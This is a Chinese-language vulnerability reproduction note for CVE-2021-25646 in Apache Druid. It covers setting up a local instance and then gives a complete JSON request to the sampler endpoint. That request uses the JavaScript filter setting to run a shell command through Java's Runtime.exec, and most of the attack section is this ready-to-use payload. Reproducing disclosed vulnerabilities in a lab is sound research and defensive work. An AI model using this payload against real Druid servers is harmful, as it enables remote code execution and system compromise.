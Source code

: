 # CVE-2021-25646


## 漏洞简介

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码。

## 漏洞复现

####  影响版本：Apache Druid <= 0.20.0

####  下载 

[国内镜像下载超快](https://repo.huaweicloud.com/apache/druid/0.19.0/apache-druid-0.19.0-bin.tar.gz)

### 启动

```
tar -xzf apache-druid-0.19.0-bin.tar.gz 

cd apache-druid-0.19.0

./bin/start-micro-quickstart

```

### 访问

http://localhost:8888   (我部署在本地)


#### 攻击

发起请求 POST http://localhost:8888/druid/indexer/v1/sampler

content-type:application/json

携带 body

```json5
{
    "type":"index",
    "spec":{
        "ioConfig":{
            "type":"index",
            "inputSource":{
                "type":"inline",
                "data":"{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"
            },
            "inputFormat":{
                "type":"json",
                "keepNullColumns":true
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"timestamp",
                "format":"iso"
            },
            "dimensionsSpec":{

            },
            "transformSpec":{
                "transforms":[

                ],
                "filter":{
                    "type":"javascript",
                    "dimension":"added",
                    "function":"function(value) {java.lang.Runtime.getRuntime().exec('touch /tmp/druid.txt')}",
                    "":{
                        "enabled":true
                    }
                }
            }
        },
        "type":"index",
        "tuningConfig":{
            "type":"index"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

命令执行：

```java
java.lang.Runtime.getRuntime().exec('touch /tmp/druid.txt')
```

我用的 postman 发起请求的截图

![image-20210218214534074](../.vuepress/public/images/case/CVE-2021-25646/postman-http.png)


### 命令执行结果

![image-20210218214534074](../.vuepress/public/images/case/CVE-2021-25646/postman-result.png)




